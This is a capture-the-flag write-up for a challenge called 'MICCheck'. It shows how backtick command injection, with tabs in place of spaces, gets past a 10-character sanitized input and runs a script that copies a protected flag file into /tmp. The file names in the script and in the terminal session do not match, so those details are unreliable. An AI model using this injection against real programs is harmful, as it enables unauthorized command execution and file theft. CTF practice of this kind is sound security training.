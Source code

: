 # MICCheck (1 point)

# Solution

Although input (limited to 10 characters) is sanitized, we can still inject commands into it through the backtick (\`), and include arguments by delimiting them with tabs (spaces are disallowed). I wrote a quick script to open the flag file and put its contents into another file.

```
#!/bin/bash

cat /home/mic/mic.flag.txt > /tmp/theflagisherefriends
```

Giving the script executable permissions and ensuring the file size was one character long (to meet the 10 character limit), we run <pre>miccheck</pre>.

```
mic@ubuntu:~$ ./miccheck
input path :    `/tmp/z`
mic@ubuntu:~$ cat /tmp/theflagmfeng
let the hacking begins
```

The flag is <pre>let the hacking begins</pre>.

